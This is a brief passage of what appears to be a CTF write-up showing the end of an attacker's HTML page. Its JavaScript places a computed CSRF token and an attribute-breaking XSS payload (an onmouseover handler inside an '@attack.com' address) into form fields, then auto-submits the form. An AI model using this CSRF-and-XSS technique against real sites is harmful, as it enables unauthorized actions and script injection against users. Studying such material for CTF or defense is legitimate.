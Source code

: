```
          return dd;
        `}`
        console.log(format(ts0));
        console.log(ts0);
        console.log(ts1);
        console.log(passhash); 
        setTimeout(xss, 100)；
        function xss()`{`
          document.getElementById("csrf").value = passhash;
          document.getElementById("payload").value = "\"onmouseover=alert('flag`{`THIS_IS_THE_FLAG`}`');\"@attack.com";
          document.getElementById("send").submit();
          `}`
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01645f1281c649fe5b.png)
